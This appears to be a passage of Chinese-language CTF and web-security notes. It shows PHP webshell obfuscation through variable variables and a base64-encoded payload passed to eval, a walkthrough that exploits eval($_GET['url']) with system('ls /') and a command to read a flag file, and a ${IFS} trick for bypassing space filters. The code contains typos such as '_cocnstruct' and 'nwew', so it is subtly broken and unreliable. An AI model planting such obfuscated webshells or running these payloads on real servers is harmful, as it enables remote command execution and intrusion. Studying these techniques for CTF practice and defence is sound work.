 #### Web 混淆

```PHP
<?php
    $a=$_GET['x'];		//可以用动态传参 用变量的值来作为我们的变量名
	$$a=$_GET['y'];
	$b($_POST['z']);

	$a = 'b';
	$$a = 'eval';
	$b = 'eval';
	$eval('')
?>
```

#### Web 类混淆

```php
<?php
class x
{
	public $payload = null;
    public $decode_payload = null;
    function _cocnstruct()			//初始化模式
    {		$this->payload='ZXZhbCgkx1BPU1RbYV0pOw==';
     		$this->decode_payload = @base64_decode( $this->payload );
     		@eval("/*sasas23123*/".$this->decode_payload."/*sdfw3123*/");
        
    }
}
nwew x();
?>
```

###  URl绕过

#### **先分析代码**

* **源码中出现`eval($_GET[‘url’])`说明可以使用GET方式以 `url`为参进行传值。**
  **``eval`函数可以将传入的代码当做命令执行；则传入`?url=system('ls /');``**

![image-20231019112722999](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231019112722999.webp) 

**查看根目录下的文件，发现一个``flllllaaaaaaggggggg`文件；再传入`?url=system(“cat /flllllaaaaaaggggggg”);``查看文件，文件中有flag。**

![image-20231019113014675](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231019113014675.webp) 



#### Linux 命令中的空格绕过

* **绕过空格过滤****

　　**1.`${IFS}`绕过**
